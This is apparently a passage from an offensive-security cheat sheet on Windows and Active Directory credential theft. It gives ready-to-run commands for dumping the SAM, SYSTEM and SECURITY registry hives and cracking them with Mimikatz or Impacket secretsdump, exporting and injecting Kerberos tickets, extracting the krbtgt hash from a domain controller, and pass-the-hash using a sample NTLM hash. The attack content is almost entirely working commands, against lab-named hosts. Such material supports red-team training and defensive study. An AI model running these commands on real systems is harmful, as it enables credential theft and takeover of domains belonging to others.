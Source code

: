 Extract SAM credentials from a local machine without Mimikatz (needs local administrator rights):

```batch
:: procdump.exe
:: On the remote machine (needs local admin rights) 
reg save hklm\system SYSTEM.sav
reg save hklm\sam SAM.sav
reg save hklm\security SECURITY.sav

Invoke-Mimikatz -Command '"lsadump::sam /sam:SAM.sav /system:SYSTEM.sav"'
```

or:

```bash
# Impacket
# On a local kali machine
impacket-secretsdump -sam ./SAM -system ./SYSTEM -security ./SECURITY LOCAL
```

Extract tickets relative to all users on a machine:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

Inject the ticket of interest in the current user session:

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt [0;82f8f7]-2-0-60a10000-dbprodadmin@krbtgt-US.FUNCORP.LOCAL.kirbi"' }
```

Execute mimikatz to get krbtgt hash (must be specified DC as ComputerName and requires Domain Admin privileges):

```powershell
# Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName "cyberlab-dc.cyberlab.cybercorp.local"
```

```batch
:: mimikatz.exe
:: To be executed on domain controller
mimikatz # lsadump::lsa /patch
```

## Pass-the-Hash

"Pass-the-Hash" inject a hash for a machine local administrator (needs local administrator rights). Once you get the NTLM hash of the RID 500 remote machine Administrator it is possible to inject it into a session:

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:[COMPUTER_FQDN] /user:Administrator /ntlm:[NTLM_HASH] /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:COMPUTER1.cyberlab.cybercorp.local /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```
